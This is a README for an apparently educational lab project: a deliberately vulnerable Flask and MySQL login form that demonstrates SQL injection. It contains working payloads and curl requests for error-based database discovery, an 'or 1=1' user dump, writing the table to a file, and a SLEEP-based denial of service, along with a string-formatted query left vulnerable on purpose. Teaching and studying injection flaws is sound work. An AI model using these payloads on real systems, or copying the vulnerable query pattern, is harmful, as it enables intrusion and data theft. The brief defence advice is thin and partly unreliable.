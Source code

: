 # SQL Injection Projcet
## Overview
This project demonstrates the vulnerabilities of invalid usage of SQL parameters.
This is a simple login form written in flask with mysql database.
## Prerequisites
In order to run this code you'll need:
* python 3.8 installed.
* mysql database (you can use mysql docker image).
* (optional) postman installed, to inspect the responses.
## Getting started
First you'll need to run the mysql database:
### With docker
You can run mysql with the `Dockerfile` in this repo:
``` bash
docker build -t db .
docker run db
```
this will create a database named `bank`, a table called `account` and insert dummy data (users) into it.
### Run the backend
Before runnig the backend execute:
``` bash
python -m pip install -r requirements.txt
```
The backend is written with flask. In order to run the backend execute:
``` bash
export FLASK_APP=app.py
python -m flask run
```
The backend is listenig on localhost:5000
## Execute injections
The vulnerability of this web app is in the username field:
``` SQL
"SELECT * FROM account WHERE userid='%s'" % user_id
```
### Get the database's name
Before executing the queries we need to determine the db name, we can do this using and error based injection:

In the username field enter:
``` SQL
test'; SELECT a(); #
```
Or in a POST request:
``` bash
curl --location --request POST 'localhost:5000/login' \
--form 'email=test'\''; SELECT a(); #' \
--form 'password=test'
```
1. The first part is the original query:
    ``` SQL
    SELECT * FROM account WHERE userid='test'
    ```
2. The second part is the injection, this will cause an error.
3. Third part will nullify the rest of the origial quary.
The result of the above quary will be:
```
FUNCTION bank.a does not exist
```
We now know that the database the users are kept in is called `bank`
### Get all users
In order to get all the users in the `account` table enter:
``` SQL
test' or 1=1; #
```
Or in a POST request:
``` bash
curl --location --request POST 'localhost:5000/login' \
--form 'email=test'\'' or 1=1; #' \
--form 'password=test'
```
Again, the second part is the injection cause it's always true. The result will be:
``` 
[('Yakuza', 'aa', 'aa', 54725, 'yakuzarockz@japan.com', 9843059),
 ('Bogambo Vila', 'bagambo', 'bogambo', 24350, 'bogambo@paki.com', 4643614),
 ('Heth Ledger', 'heth1', 'heth1', 20000, 'heth@gotham.com', 6434614)]
```
### Write users list to file
``` SQL
test' or 1=1 INTO dumpfile '/tmp/users'; #
```
Or in a POST request:
``` bash
curl --location --request POST 'localhost:5000/login' \
--form 'email=test'\'' or 1=1 INTO dumpfile '\''/tmp/users'\''; #' \
--form 'password=test'
```
This will write the users list to a file.
### Denial of service
We can prevent the application from processing requests:
``` sql
test'; SELECT IF(SUBSTRING(version(),1,1)=8,SLEEP(50),null); #
```
Or in a POST request:
``` bash
curl --location --request POST 'localhost:5000/login' \
--form 'email=test'\''; SELECT IF(SUBSTRING(version(),1,1)=8,SLEEP(50),null); #' \
--form 'password=test'
```
If the database's major version is 8 the database wil sleep for 50 seconds.
This is called blind sql injection because we dont need to know the internal database structure.
## Protect againts SQL injection
In order to protect from sql injection the developer need to pay close attentions when using parameters in an sql query.
Some precations that can be applied:

1. Allow the execution of only one query.
2. Always user sql parameters as string

Here I'm using `mysql-connector-python` package, it will only allow the execution of one query unless stated otherwise in the code.
Using `SQLAlchemy` pypi will take care of most of the sql vulnerabilities.